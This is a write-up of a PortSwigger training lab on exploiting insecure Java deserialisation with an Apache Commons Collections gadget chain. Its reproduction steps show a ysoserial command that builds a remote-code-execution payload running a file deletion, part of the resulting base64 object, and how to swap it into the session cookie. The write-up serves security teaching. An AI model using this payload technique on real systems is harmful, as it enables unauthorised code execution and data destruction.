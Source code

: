 # Exploiting Java deserialisation with Apache Commons

## Description

[This lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons) uses a serialisation-based session mechanism and loads the Apache Commons Collections library. 

## Reproduction

1. Log in with `wiener:peter`. The session cookie is URL and base64 encoded and contains a serialised Java object (the first two bytes are `aced`). Send a request containing the session cookie to Burp Repeater.
2. Download the [Ysoserial](https://github.com/frohoff/ysoserial) tool, [if need be, make the on kali necessary changes to run it](../../techniques/id.md).
3. Execute the command to generate a Base64-encoded serialised object containing an RCE payload. The application uses Apache Commons Collections library, so use a `CommonsCollections` payload:

```text          
$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBh
cmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAQm9yZy5hcGFjaGUuY29tbW9u
cy5jb2xsZWN0aW9uczQuY29tcGFyYXRvcnMuVHJhbnNmb3JtaW5nQ29tcGFyYXRvci/5hPArsQjM
AgACTAAJZGVjb3JhdGVkcQB+AAFMAAt0cmFuc2Zvcm1lcnQALUxvcmcvYXBhY2hlL2NvbW1vbnMv
...
```

4. In Burp Repeater, replace the session cookie with the malicious one just created. Select the entire cookie and then URL-encode it.
5. Send the request to solve the lab.

## PoC

```{raw} html
<iframe width="560" height="315"
src="https://tube.spdns.org/videos/embed/34965ce1-bcea-4cba-8f97-d90b314d17f6"
title="Exploiting Java deserialisation with Apache Commons"
frameborder="0"
allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture"
allowfullscreen
sandbox="allow-same-origin allow-scripts allow-popups"
style="width: 100%; height: 360px; border: none;"></iframe>
```

----

## Exploitability

Although attackers do not have source code access, they can still exploit this lab using pre-built gadget chains. An attacker will need to log in; use a third-party tool to generate a malicious serialised object containing a remote code execution payload; and pass this object into the website to delete the `morale.txt` file from Carlos's home directory. 
